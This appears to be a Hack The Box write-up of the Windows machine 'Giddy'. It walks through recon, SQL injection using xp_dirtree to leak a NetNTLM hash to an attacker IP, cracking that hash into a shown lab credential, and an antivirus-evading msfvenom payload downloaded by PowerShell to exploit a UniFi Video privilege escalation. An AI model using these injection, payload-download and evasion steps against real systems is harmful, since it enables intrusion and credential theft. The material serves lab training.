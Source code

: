 ```yaml
---
layout: post
title:  "HTB Giddy Windows"
description : Tools and techniques used, powershell, phanton evasion, burpsuite
tags: HTB, phanton-evasion, Ubiquity, bursuite
---
```

# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
2. Gobuster
![](https://lh3.googleusercontent.com/BI-edrIfyhlFDnmPTGTKrtJ2vQGwXOGjKafUJ2kO5f34UGqlWhoj-9ScJiwiVSFPNaMtaYaMOLWwOREWJs0y8WgWvT_oHBXBDPvu8TqC663NrCrqIwZYZh_xQnNMihwmLxK2_8mcZVDBJTK7DZaYfmMpQWo90psQloOHzhG4LnHaReGebpJM-vak9rqoVHh1U7l0dXrBRtNIEIcLqKY5eBwyVCWGDupR8BY8dEGJbCz0kd1EDdtKj9yVaOYlHfqzgfLOOP3mfGkeiGiMOzl4zoOTxUsPbJqRqXT1x1dFlnoEwVbSPAu8J7CNLYincbEtqWNWrWbHuz85ebqLPPKWVANTRjX04cn4vb5nGE0E-7Amc-S3IByvo7_tNQdrw7K1E5ZYyCEPi2RaCLcIgQeZbe_DPycx_kzhYSGEhrN2tXTjKLdmNMd6DvZT13Sbe1Y5bWX0Ym4kDbIJUJjmU0XQiFEtIm4E48_ZaZWXtjDjbKEKeQ1QqCITD_3W8EDqk1mDV9Eewaj65Uf2pcux2UJ5kkuVhsYVEBiN9jFO0oI7RfyljguHAHQIiAPfRrWBkO86sGRQZaD1uazfZYVbhGpVZRiIJ2SiKKf49nSES6BWrbkLdPpKJz9-Pgd8l_iVvoMc8rH1zBW1HTEc0nz8DcONs2adeQ8qK1et-rBiRwmy_u3muRpEg8DUYzA=w536-h242-no)

3. Under the remote directory we locate a windows 2016 server access page
![](https://lh3.googleusercontent.com/J6Oz4XAOScSw39O-a6-KMkLwsBofcOeort1WD9Ik1lli9LyX55oQId4XiZj6dQ2x7_ICnke_NpQgWvYCZApPMK4Nh4i5Egos7Y_KAEWjPU8DwiQyR-C7YCpqHknkMNeIp0GNhPJru-Q7x0bDVNaWxX88UKC1LLb3CHujrgkP9fwbnbezU-ZcjbRJGaeKwGUU-C3PfPr6mhiyb7_uLEgiRGMZ-MEgwnsOM9lkvjRT6_9KM69HfCsK6_JE4e3yQ5P7TDrNx2Okh6ZBAcFaeN0Zbxnfg0VUZZEaHTutY1rkG9bBM0wsDp15VsYj9aL8xJCMcww7FML2zzUlKMac6SkMQUXW1DADbniuZRqAzcI_eKUtKKHHyD5wai5iYITnEiUvxxdywY447ApAkoikzvwqMYKx1LvMu2zinFkkUOTNeALFIb5k30Ih6P-a2WSZuja0snQ7daCjkZiGjAg1BHRgEL8Pa1T5Wz1OTjlME8zJjSTXPGvStvcSW0hq9HjflqMFrZRFXGuFxaSt9IbsoyAgfWaEo0KuWEPwA5D4GJjjiCYh2NcEb8Z81ENgg1T_OTjm0iW7HzUDIvM1nH7pmSz2VonwJVXfZrxrO15HBlv4eq1uaySghgWL2U5hKox-AqEJ-s0vbubO5qREwqAaG5y_o9OkoiyDUKoRkSLwzWPgYmY02U5a1V-HKzY=w541-h491-no)

4. On the mvc directory we locate a web app running

![](https://lh3.googleusercontent.com/OP0WSgijUfKtz7ctVxeVmwpPFXMdRL873voJBnvMfcWmhL643M1Rnr4kabgOOe-oZuniZBdQmlJTIibsZTQYz7z-jBrIrLvT52gBZKt2r1_ls1S1BfQrrimq-4g9Cv4p_27evdQq8EJzE-xM-AeXPkMbun72EBpUirDiQd3A0q_03_HAW-PQve9wYCHhdiCEyjI7KAwLcp3faC8jcLVsWwJqHujrgNdBZr2YV5-U7jQclyDf4oqBMSKeXYJUAC07itY_02QSSueyImCleITGS8lvArh0XmLX3VvJv_6Mn4t-GjHgGun1JJN8oBnyErNdm3H72tQEMCTCbXj5bdV-_HR_nkQgpbh3q6yZGGrxQekYovBEubHvu18hSKnNPrA3yx_FDzP2CuCNGquTcZ24rFq_-JfCsQL2j0RVK1Xwu9EILvR94bDPX68WysVUyLCDqc3TDFAhDdz2CgeRrZpq0L98j-ji5vWigb0pPd6W2mIVo8XmzE1AR6kMBA4USBFQ1r-G3U0ZQyQGgj1jq-22QAkcrs3IPJCn9U_7ztRwTP7FNn1sBpbRwh6Oz-Qvb6nqeQ-GuQ4sCvMD-X9b6ak0i8LLaW1m3qZKtGwDdA_TW2536o29a8aZXjOoNOJkoVtCxhn2MkTUZOkY6cJujOYKMi4YtbMIvtSGR-WcXAnA5cdpF1CnbkVszb8=w299-h539-no)

# Exploitation Method 1 SQL Injection and BURPSUITE
1. After a little of trial and error we find out that the web app is vuln to SQLinjection:
> caps--

2. We start Burpsuite and we made the following search request to the server "cap--"
![](https://lh3.googleusercontent.com/FKdkzadYk-1azIEIbC2GZSkd5fxsNOqhCyeEkTkxB_4Yx941c-OZCwai5HPN18yS0VnnRgcA60eOt0skhJUp78KVDgQpB8XlL3KAGvW5jEK7nuy2jgvGJqDMzqRQQCLiUOQTzQtiImFWzVOW3XeiaK6D5nivyPfD8RqE35DYt5KaaY-cMix-WGtGUXu-lO7Ox9nMfH8mITBwsSrtftWX9fnjWt8Nv_EBoqH1ZVIk8pkvKJn6-CvPBB_8winhtT5J1b-6OCVvmPmsayglUqGbTyI2hLCLl2_BAz83NvF66gXTflmLiH-54jQgaIwtcSh392ju9Ki08_ya_irKErB7A1XB9_GJMMEOyAb0N5SZi_WD3NnqRzU85igPoXQTKHciuu83Mbxlhh2ptSFDFFuuaAiTbYtN2H92k6sPi3zRedHk4r4EU4Cga1yqekZJvqjnZiv2Yn0nl7eBc2Jf3n6wUCyE79bl0euXwVb5xYA0fb2c5UqX7aFrwvtbQJ5YUoxrKhTmD_gVNowlaKEs-6u1CG0pN2hhUwgnXwBKbEidbpW4fwgmrRifVxE71OA5J7sS5OPSZm6sKLcIb15jFgM8wfLvrPXvYzl4nCDZSo8fbK5jKmDCvOZ_0oQESLLVP5dUC7imqA_EYS4CLoYlZjuDdifwFGQl_HxLz3xdYRfYMVEXWGAJhk4AkMM=w619-h263-no)

We capture the request with Burpsuite and modified to
```ruby
' EXEC master.sys.xp_dirtree'\\10.10.14.34\share--
```
![](https://lh3.googleusercontent.com/JgzHhVf8_J_jIoVDEp9k3eDrOwFggF0FL4sdq2mwJZs4G-02v_qbmFfzf_wteAwV7TEo3lV8qciz992XRqJmHbnA_HWRLWSJMfP6GtXBDe_u6dmlQPrPS7cks-PLGkQOX9sarzCObJe-ZTxpQR_2NKmTnpHlTyL0e5Rdvue4ZBR2p3DAppMIuhFMVAxL2ZitGk7R7979KzBKd37hFRVmuV7bP2ImnMs5_UIz2RZk7aSC1-X42rG_fqyXhppHTSCLl9zyJPi1LMSWCAoc5SXn8eOMz6jL2aj4hcUjh2Il5c0fMj1_0GRVJJKy0AQH6huvbjx1qeJkkx8mUmpbCRTJVanPHw5A7Cr3TGdbBtIf68LX45bqsQI6pDOhrEdSeyOH02lwgiJXyINH99Br7lGSYCUhhawlfJqchaTSXwjPazzz2u34uZVcbvP5qwELgHHweezZu_sa2BAle4YDcfjDdsw_Y1LdcheJi9xvuIjNYY3-H6AUkmxIUkvV94gIPxS5zNiOt2NgWkPctBCMYnXSdlRAtKDXRWiMRQYxcb0Hms7YfhhaATnJWa7EymHlWZYS0kWWZee2vj1dPNB6u-i_w5d02BEuXEilI6wrXF8ty5N84xPiMryWwEJ26UZEIrIw0M7bSQJzOhtjCK5CjIklYCGMS34VfifD1-5koUJM7AY9ldrkYi7UN2A=w502-h45-no)

![](https://lh3.googleusercontent.com/RfSI-hXdwgfsyrLFfiwxWRgtReY_4q5HLxjWxmAy0jN5AYfPjQ4CF-uOndfXwYdjdgN8v16n6d3VbOYRbrgmeCpC5Lm-IiD7oryKIJ9YtOh5uShrOc0Z1cI42y1-yx0H5pHD3cKC8ZtsKU7tmyFaAAwLzx_je79_SimX8kgVWMmckZi1_voGMCKCDF3lLwLGqhdMkzwsj1OttU1yZzVU1CZcer6hArp9AM39m4Yh4HHtvxElTliSTW9G6RixZg5_q9wj1IrUvDZeOlpEkLoKFgyVWPnFlv2-NUNV4FH2Gb9wxzP2KfybS5n5092joMvGOIQSwgvPDBFgW7bZyDlp3QqtRkWqKeLvbZQEZ7tnVMChVvbTAD1wySMxL4W4mrp7rx_7sKIxKngL3-QSic00DjcbKzbcKh03SQSpJlS30ptUCB9jQSjiG6jHme0tHrnRw1jTGU9dz7qzu2fRFI7gzbgqMgg3GCeoXfjYwBBoDVqhWfTF4rEBKPt_dBr3ivuBUNp_6bZzOr8-MhQkIwOgvYbcAeq0x_ehYyGLed5sHIamV-w2n0XSUV1YZCueZ_NQz08HFOz3mUy-yL-waq7HYb5dKIYuNg9vjdzvKpdJa340GJMse-PLc2ke9Gm3oufKIyNuliTJkhl3x4CmP9uar9nCNUWtnGXt3Sg3kEb6Ln26KbEfq8irFGE=w748-h42-no)

Then we forward the request

4. We run Responder with the -I tun0 option to set up a smbserver to capture NetNTLM hash
![](https://lh3.googleusercontent.com/7q4nGUHEgxE14oi9mRAeGS0V1pjZEhHBk75K_JQo_PmsQItz9yiy4QJXmlWkO9eAE_YuLs5UbQIvQoOWuvB3og7S2b0jRYTbJJi-_EQXAQsp4ILfUFWdiHKJ4slpJ6c_fIA57BSHtWDrLkJ3JKfGla3-bduZ-ay-Aruy6Kxw1ONNHu-wigYF2wxFClBBm8JkLtW9heCYtGEx3IljmHwF7lyvQ2vtZfkzH0wOPKNQWGSScagJNz6ohuuceWRPRp3PKJUqBXATDdVbh0m_MZkNva8ExDVaepuLNUR3XirD5lzVLzasU4riv3fzPzP16NziP-1wMkfJmE-rEzNObmo-wtkiSiTv6L1HII1-kV8O-GrDNYE6ZcFuo2efTr1HbRrUZm38NxaBloymbXJLcwbRxVwAuRnzIq2L6XSY-MJdCRTwVVFBxsa4HZBA7TpD1sQ0r45jqLDC-xywXXvaiKSa7qWdBZb9U3Kqg5xHya6aJ7s0A7bpjRJsUgy8R-l4261GrUBx-RrO2C6w2bxzLr3GG4ecbsYm3MUr58jKS0ddYks-Fl1nFAm7zRyummASwprCUX7A1WK9QRLkFm1KPC-i0qyQ9mAp1BRiXE2FCdOxZlJNBDBW4NQeMxON9Ow3DfEkrxbRJfAxXGfIv_GvR19iUaiw8fkIPmEjNkp9_vCYCLlMIKgCN7V4_C0=w539-h457-no)

![](https://lh3.googleusercontent.com/ph6I7xdJhHJr6bcILHcBgbbMQ9ZaMrlLPNlN8e12uEiVJo5MTQy9YUS6NvbFsyiv5VaYmMj8JIDB9SBaMCcj0Cdc-BWzfpeoUYJM8_gqwGKLa9BakOILWb-A9kDYerni0t4BV6FHH_G-uQ1PuasAozxTjsFXezv2a2HHYUO2ddSXJ1UBnZDxWw7jlG0_PiPFJJjq6QddqpiJqzk-QHDCgfA5l2tiArxATAW41U-pAO-BOqdppe9AR0z6fM43r-FojICbQUSHYl7QlJ6q6OoqwzI-HPKYZyrvs-_jYiNx8bCr-9nok5dwKkraCs3gXgTay8RexTh5y28EIugsLwIdISJbG3f8RuOw-Rt9ypRHiwS1CWLF8Jt-iX5dhtRjquyy_7d3Z8qb7yQI4KXfNSAPIwp6Taf-2MWsQOn7n2AXVZZwh-STuIOPWsbsM2YJVMj-TT1WokFVkF32UxRvM9Xq3NkFERX5cqyLpU1SLjE99PzCCGeGvJkyZNABemguLZs-HzzYdrRZXNsUdBS9EUPp-wNiQJswbtNDEJgv06qiih1dDowMNmCH_jyW4bl_aInZ2KD0dR8Ali35hkv2dn_LfMcJhqMyf9QuYiFGoGEoNmXmldjsLCwpnWPG8Y-zMb8ktDQmZZUPLscXFnKCXDmDOBalex1EiZiZaV2T_55svD5aMH_bnpMzruY=w731-h316-no)


5. Finally we use John to crack the hash
```ruby
Stacy : xNnWo6272k7x 
```
![](https://lh3.googleusercontent.com/Ld3rfusYNEDBKzkLNI7KzREgoy5dKvJTVa_xIDdkreu97y0MPtE5U5eOhsWU_FzSoMSZiZrln5FeZTJDzm654_SMcJ2jjVL-0NXBd_HBvGDd7y_9qRHYe9ORM_j-5uGhWFGFmZ48vPk0cR90n6Fudfq-76u4OlmqNXpNuLIcxiOdIDRiKps8c0XtBLe3JPshXp7VGXCRp2QxJp1OdROSu30FUnKvovDy8FCAq-irxKricAqo4awKiFA4qcQAsPzMFPllg0D65IHQ4VyCsZaUubG1lkn-hJ5RGqubq3aEEM4oFMGkSSCU0AmZ-YcsMgMq5t7e668uSWrKB77zF3LXiyS9jCojkSNLLXiaL-lVGQU6DMfv09_HKS6oWqKs8fkaQV-jQTO4x7t8W9HioLklHc8fl8kbhAdCvQ4lUtaYEZPbGEYpjskPeyihYado5t5qGaRhP5wLnaGyEf1yu_ymdRICau8tGtMzmk0_1c71BwbAI-Oqi3tpSKF4E8kvDH3r47LeY0g09FI7zNcyNMI_5d3OjT6USIVNhf8JqILbZpu1vx01fLCKkiimyoj8Q7kGOYV3L8QLo4O0H-QdkRB76l-AzjvhaIZXf5guYi-aIWtPSi6qRZKYvVB6D1ZkvHYB0XJq6iscg4wf9bXYsjZmkfXDrOCK8hMkb3uOVWlE1WwUx4Dfy-LSLjY=w966-h213-no)

6. We use the obtained creds to login into the remote directory
![](https://lh3.googleusercontent.com/yDD038JTEJ9y1yOpW05oY8BZJzHvb1XP_Iu9_ymnk7CRgCnl2zBxFd2yZaJcg-x0Xh6XJ-OsyMOZaZbhfb11K7WCEvYeEKyJkmpkcyzzvSQbF2zelxiQ15FtSqS6Wf_SC5IX7e8rFXnalsOn6WBuD5cx2OOEQjrn5P08UrtPZmdbL4oA2u3ep8RfkOY3Qg5EGo8Tp4OmPCn1VHiqNUaGbRFo0PH2i5frgng_s6S46w1jJ-PYZMaCkHYgDCoRsVTnqvBdPukg4P8lLmicNOWzboFAjkRc_LKlOMtHpUAffNgQDrCOlg2Rf8NdwfmrDT_rcavv8xQZR3m89GCOy90RqOgTeZaA34WB6yy4FkB9ixQETRabyVMhwPgefzOHR27KKCM-QWfqK6j-r0fUYcnvin68w4ekUJnlOvEes3DwTiN3s3-IjDqWjRbEBIBEEibr2tSKTqw-KnYROR_FOmaKzmx4h8BZJiMPx_YafbKR1GokRA8QWCQLAaZDjWuW77zw1bJuL5HqWb62w59WyQjbfbdvRDz5rIJ_bIGUoo1ZUey2-s7wZuSbveggg_o9-2c-xpuD8s4Eu1ZUidzVERWaJgr0IbIUeP4pczltoE0QN5-GPHfPpR9xnwxW2TrhSr7KidL43gj-9vWtIa0DiVL8D5cQ8wMkQAKx4SJYOyFmvOFnTEZ8Mt5uJeQ=w535-h449-no)

![](https://lh3.googleusercontent.com/Q5fYcnepRnM6I4jp6TNaTwG7VjBhqhuKS84h1HMQ3DoiTO-SGhT5ZlcBR3un5pdD20OT4vhvybNQWFbotC14jpLh8wFkSRpYIBbmO7ukHqx7w6zrIkGJqqT1_hTFP4gHwijc3alBUTM0kEa1nOIhO0m5Tb5nXr5KtWduqmKhT19HFIFASBXpagpmzquBaj6DIa_QW-AqxXarzLRW4D5iBXzGZMA9YQgHU3mLgFmhRbyo_NrVfUGxSDIWsmdJmBjP_uL6_exCuksc0Xl4ijh0mNNPnsVW6LtuW0N5Lo5vkUIy_1bvHbHsc_mwg6aHxhtYacGjLGFjVqz-CZ_5hxQ7SkqG4NpwKZRzuuwZMwAnlwcOdFk_lzCgS3KpFX61N4BzavGjLhh3KWLVzpFir8VMkUyuodAj7fW_Y4S-pCV7idZOGzIRG2wUeUtAq5H435M9zEG7T8cLvSHLwLboN409GTzNWzU99oP_1xpvxVtHY2U2mjjTKZiYfeEAYROWiMlLPCXzMG7ewWLgum8Ze18fxXZv0Xd4YHl4_3Z8vcvAFUAEho7HZ2nrnuEgEFq2s9BBDFNam-4tZB7hHn6vUYlJSYAEUgO_Xx97ALKBLOx35cm4ONqxo2l5ykoLXManzSOtz7nK-Kol-pQkRr4EyXYCRnfHoZbUQ1LXRkpId-HDA_R4jNksDJ7siwc=w741-h513-no)



# Privilege Escalation Ubiquiti and Phantom evasion
1. An find a program called Ubiquiti Unifi Video installed. this program is vulnerable to local priv-esc CVE-2016-6914
![](https://lh3.googleusercontent.com/jPghooY3yguXMcrVvmA8LEc7I-ZScfzCNAl6X1F5dWkI0_c-G6Djplxhw_Y4EOskSCNg8W8APtKfhojobEGsWIcQOxZgFo_xqYgMkt1cF0PnxGJg2RmAbWSDz8JTBkmGupYccgS2U-zpk8hvcGJOCN5cT2z6vhehRjCyfzclK7sQh0QAqLa5uYokB5-oD5_x3nHws5Ld8spcRwS0Vaeq5WrZTpcZrJaPsZ7BI6FPm2RNwAeCSAq8r0qvpo_IjExIy5xuIZWingxMFCs-B82uK3IT8Gj2OEVPIwem_WdhZaV_vwXV05Bh9LLXQ6C8ljQovFYNUqVaMlZd9sg0yLG8HuVdESZlzyHqe0JPkVjnd4U9KH83660eCdOjhn37pA_3AXJ2sshZiofutjlPMFHDr5U4xwVzZgzw-RTBg2CmQOHPbZPS4H5Hd3KiUKatnChfuynJyTvkE5IaAY95b13NLAElYjKX12j7lqzPwaj6wevfHiCBAObfgI8DeRc7jcZEZZAZOYWW5xvpCoxJlkRpwfvszLKDEQHKCn-vQPRffZPIcvHMeeNcf4WesJYJx_T5OEjoRsuHENigT-99kXGVxhN5U9sLk6XDB4nuFL3_0zrRYbpWXB6n6H1Bnp-tcCsRKCy2h9RTFLonuzY1nrgKAAxVIFifGNWQ7geocadX_CDjKmiZdLz6_uk=w742-h365-no)

2. We create a msfvenom shell and uploaded to the target machine.
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

3. However antivirus detects our malicius shell and blocks its execution.
4. So to overcome this. We download and install Phantom-evasion

```ruby
https://github.com/oddcod3/Phantom-Evasion
```
![](https://lh3.googleusercontent.com/1ZxmrJhGt1Rj7O6leHhEHYFKUCNIZvuILqErnSWLGdHm9Q0fl89ax3oD-Ec2TiTg8ZiHeq5TXX1rtNkTxoTRoXb-Bld7gCfC58z6iD9ceiAV0-hPOxwngcVD-Bp8zGNnyfd75boGmsQgtaZyRAu5_50rzMktFA49mBj6slFf1Qjj0VUCiFSvDnBEruau5vVTM-K-lqTMxe1Fv7ff56f0WS9512qmmDN5Fn6piI9KwSU8wH4KrasEygBITP-w12j7jDv6MSV2a76Onad4oNJ5wCqkILv1cf846BDa2AL5ufYe-gZiAt55y_qNXxot0mLGfHKWpWljYaEh4hsKS0WAflUryHGYtV1oHvX232DyUVXDUJLXegNThfrGa04puTB9YAq6-_wt7i9fy-wxQRQL4YiR2mrb0dy8cXjwlVeu_0gb90qUnP4wYJhvbU7joJQlHck_2tcf7p815OeV-t1C8-Ca3VYLZSxkixtTRGbTAlPFISSiU-6IYAmSpL2AAUrXIZIhYZBKCZkKqDUaUzCKLrj-u5O3AVNSwU3riS-NXb7M03Gk5LGWQJ7FxkBMv5K4cM1xdkuxCUAE7TpxsB_4Xi_pDaUlS4jbglhEdIMfve-oi45vtmu2Pqd8QzBK5zUflCE6x8c9hRRD6wSalN5fCSpxxo8_TZo49og71wmJjxKjG4u_Mg6b5yo=w758-h456-no)

![](https://lh3.googleusercontent.com/JvQgPIuekgZ7_aCp8e5qNuaepoCSBvAS75mvKRr6FaMPPqA1JYahoOHUbya654H8_8e0biT7Cr3Ochk_IGcJUJnYMdP6zJNHpnpbE89ZxZ_WtxOFu0rhICNAswwWpEMR--TYMDxzaAg2GK9881VE-zxmEuevEsfuv8FzukUI3azBAtgVtcgUbRCF_ktx3sOj7xEe5vhLS7YxPkEW5pQq0VHZ-yEPFe53Fadtg1gFylg7P_EGBcoEO3dInTOW5fXYA7ev7NSz4yUxT3lqZNk7YM2MWhMiq4FMNtjMcGBWziORjE5-mHYRJpGHngQ9eefrIWr0lKyKAOmU5_iGNIM56cMyWAUJKPieYU8uvCjllmUK5MWjeqCcRE347S23KHY4LZDPw6GhQqX_ykz0K826z_bnr_fh_SDWaEOeWTHk2ggV3kokMtUNaolw_4HAyAB5v6cgvAwo2f5ivjmAS2BXSRRfC-fB7C8Q5RneBnpSxD6Kh57pjP8uVS8pfjJDteBvEYRFG_0jW3eKNwAEh4h7jHqWnz_dRRNw8hO5JvtDpC7y34wrAjdFsJHMz-tn356p9GqsWJncI1k-wP5AW_Sopn2N__sYSmEOn4S98Y6omX_iFVbk2WpZc62qvn3dJvJOLEawX05w1E8Zgkvg1GSegN74Q9kb56iMYwsr8y1CAPiJ-045Ymey1YA=w545-h262-no)

![](https://lh3.googleusercontent.com/poOtQCySlDuqcMCqHgnTnP5t-8w50fAk_hnypFKsReRwGCuw1nSJswVz9DbAWbRI0ffJ_GrMbmA8N-S6KOwmRobesY7007gd1HsgHnIZxHi9lkhOpOeFHct1GOB-xKXGlxPj4ni47UDMsba_DnS8eWQiXKf96mLzxFre_lys2WxLOu0oHMX6THXXm6q-7N-vs3Pjc_xFQKatevarF-D1MehIXlY4yxJUxaTCr-JfzNSLk5QxdHcz4CjD2946QQXIETTdsgfLAWwNNalpD5o4vSkoMRpgV0cbE35P1AuOZwCg4CE3pmhESzJj_UM0jHOv7l-rW9TWukTWmx99e4xlD7p1YlZe-vM9K7nIFKAuOZwC0cRQiQiI-YwPErUq-7oBIQdIuhQVwivlVGd4p9MbOqkjxydfr_PW7JgKhmPrANta4uQ2-k8CZz7SolLe2B6wJXXF7z_JkLJJl-PryDpDGwYOLB7bpaGI2f3F65h7qNmSxSY-5rfuEhFkcC0-6BwvZPR_my6vaGrJc9FW5wKLPcuDoB7YFEwtSxwaxiceXrMSS5AOSGYke_19RRyMWpL50HRwyXHTUcO4xNKfk2Bg8fh-agB0iAEXuZkI2Y1FWZh-ZpvTTrOh_ybqj_8BiPi0-tKWujxSTYi062T9VxV_uycykAVESPfYvQ83NovBZP4tTjxAt804T3k=w748-h299-no)
![](https://lh3.googleusercontent.com/YPgKlq21fNw2vIMg33yvP9XA26cvybgzgQYOR_tnaArTcEP_TMptEb2J8gxulQyyKctYTmURd1trE0ZOQ08AiyqNXWqw0hXtmDvooDv52MNDozE-a7z1QueTGVffOGps18nEtnFj7dEG2XS_dEc5-sGwv1ri4qQq4jp9Jd5PdsGv49XuuPwPh7SK-M9W-tOfpp28S4Sdzzlazu9996IZ31sdvIJueHosprbambqqS3LDv7hVcapWT5CkCbWIpKTbKvdm2mt8w1BrX1gT7PvfrEIUiaLbfHmXM5or3WGYo1Jqz0hu8YvSUtGJW1qP0AqTLcLf9AV0EH5yq5R0BvjTgpyXTvpgcIjKyUt6e6SGv-YsTNMZ4BzaXQTq5w89vvJbW4EW7Pld5r52Re5MFnjqA_8Pr9G5lojeiPUEuDWm4L9QXc6iL3_BAyz7XQpSg-5qS7dbtw_tuZu2XyVluvpcaDabGf1V_YV_rR7XvONtFwgK9ae-RoOl6FYn81Jfzf4yuVoM00HIOzOPSr3AzRYmO8yzDEBcuOsM9B1-pQaTzgFqTox0QDMfULga0hjjUEkcrjpiezQnTekVNUh8tVZ1Lh1m_DQM8NvNDJ2mYcCRgnhNCMinmgNmGi58RkIQhLhyc1I20DbJkB7SLzlXNAiCaSHwIUgzY1GE_yvNAkVPa9f_4jHU-bHWzo4=w824-h452-no)

![](https://lh3.googleusercontent.com/nWKEsswWjm6zdZAcAdRTsu83ToTSgU6pZZpwrRYPs9MgFDqFnBoUYWZbNj-lxsi1vEw0FVoZMRUHqgrRShMNGhT8iOrOEXOOmhne-tLmzQv4L3q_XdtWyDiO3w1FqphtXtcuRoNhUWOSvYyTh6F1ht6m8kteBpjKz9k_pZI8_Xw1XjQqd7LvXOCLYCHpByWhTvuLXOxm-HegFM6NLOZmbdV61Jz-DaAdmCiSp72lbQr1YOY-y0OX9hk9nwn3tevnBKFDDoT6u-Y9Q-ItJl_IIQy8euAoOqXLB62ajo6rEBDuvzv_nAhjorzupaPz4-XVjr1pFmG2ahxzcZO1Y6FLTIZ-r412SXk3dWkmvmBQzcLrq_HZlnl9hg6zLTZcyyEKBVp-LUPz5mrJ3pQECRL_YbmaIi8MmNJ0GRJW_NlchlhBFW28-SKX1P6zaeC1q8RGeMJyGnXK58dfgA55ziJN8TAmfw5uz4iMYGE6YXJNYpkvYGKBb0QwjhVxprVn-omFmZUTWjWnWvlZkG25pF7q82Pfr2-tw0pv56f_9CNlzsbdaAGRGzml3O1Xdz9MF2G6rY8BhiDnDmSmGPakl8kcK0mhFKEIZFkmxY3oFQyWzSvHs2g8A6P0dMeN0lpa9iDG93TDP-MSd-AO53i8vaTertnXERoGLXNE0d_rbcIiPGdqfvFk3AyR_jA=w674-h517-no)


5. We create and upload to our target machine a x64 bit msfvenom payload "taskkill.exe"
```ruby
powershell wget "http://10.10.14.14/taskkill.exe" -outfile "taskkill.exe" 
```
![](https://lh3.googleusercontent.com/e4hKPGYAR4GPRWmWFeNhrJKSE3gmIQJ9T2adSWA3mJ61QoyNQLaiMy8tRG2sp7zpAgM36qyTPqBTdrYDXSlLbDPKUKa6eEY4Etbx1Ym8hYz7epeEL8kO6oTmGl3w0IHkZV3oVE21o8Z4oDDBTb2ef65swOkbhHt2yJir9KrXNUXa9Y1r3AbfkpFMsccbPDzAh5v8by_6Wrh9oTmkrDUuov6vGbuKWa4nQhq7nG-stdb2a5BoMPLjyZIgbXnbQlz1VsBPvu4Y_c36vLwVL4saWDautFm2FGD4M1Qsz45NwvX6BL3Q5TqZKqXuMn656JviWXEvGimiTvYER6YGMxHG74-HWu5KwbsFLQBR-b4rHesXC1_w7mudRv9ILBzlfIQ5y4W4fYIyDxwdxaArB8atBcHCnV7aGV1YaB1PssEHv1KLWYJgZbcOLDivlrsXb_Hpsaw5KRzorZY2euBEGfadgCUaJQi6OvlhJS6CNiI3fGIMmcKZNbw5mG4puPpiB2xrcKg5bKX7JPXSIeatBQYSSfyRhk5Krw8EXUIA9NaOjQPDSmhwrhk43jTpFCeINllvDJkgQKGKFV1ThUBPZeYlt5DyVrtCWofgZamnughSmklLZibDI4QagAuu_8cQLUXANqOrj2K5ji1Xo9tIDohXB8-TMJ3AKLsJ5KQfQdm6H-5eelVSr3DOwpQ=w447-h387-no)

6. We proceed to set up multi/handler to catch out shell
